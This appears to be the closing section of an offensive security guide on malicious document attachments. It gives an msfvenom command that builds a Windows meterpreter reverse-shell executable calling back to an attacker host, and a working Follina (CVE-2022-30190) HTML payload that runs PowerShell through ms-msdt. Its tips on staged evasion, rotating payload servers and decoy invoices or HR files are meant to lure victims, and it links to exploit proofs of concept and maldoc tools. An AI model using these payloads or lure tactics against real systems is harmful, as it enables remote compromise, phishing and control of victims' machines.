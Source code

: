 - **msfvenom Reverse Shell**
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=attacker-ip LPORT=4444 -f exe > payload.exe
```

- **follina exploit html payload** 
```html
<html>
<head></head>
<body>

<script>

//AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...[*4096 bytes, truncated]

window.location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=calc?c IT_LaunchMethod=ContextMenu IT_SelectProgram=NotListed IT_BrowseForFile=h$(Invoke-Expression('Start-Process calc.exe'))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe IT_AutoTroubleshoot=ts_AUTO\"";
</script>

</body>
</html>
```


---
## Tips

- Combine multiple stages for better evasion (e.g., macro -> download second stage -> execute shellcode).
- Use staging servers to rotate payload URLs.
- Test extensively in a fully isolated virtual lab.  
- Utilize decoy content to lure victims (invoice, HR doc, contract, etc.).
   

---
## References

- [CVE-2022-30190 (Follina)](https://github.com/JMousqueton/PoC-CVE-2022-30190)
- [CVE-2017-11882 (Equation Editor)](https://github.com/Ridter/CVE-2017-11882)
- [CVE-2023-21716 (RTF Heap Corruption)](https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://github.com/gyaansastra/CVE-2023-21716&ved=2ahUKEwjRgOrb8PqNAxW7nP0HHYuSHIQQFnoECCwQAQ&usg=AOvVaw0nkJENQB4gNPVdbDaxSpCn)
- [MITRE ATT&CK T1566.001: Spearphishing Attachment](https://attack.mitre.org/techniques/T1566/001/)
- [MITRE ATT&CK T1203: Exploitation for Client Execution](https://attack.mitre.org/techniques/T1203/)
- [https://attack.mitre.org/techniques/T1193/](https://attack.mitre.org/techniques/T1193/)
- [https://github.com/sevagas/macro_pack](https://github.com/sevagas/macro_pack)
- [https://github.com/outflanknl/EvilClippy](https://github.com/outflanknl/EvilClippy)
- [https://github.com/decalage2/oletools](https://github.com/decalage2/oletools)


---

***Author*** : **o-sec** 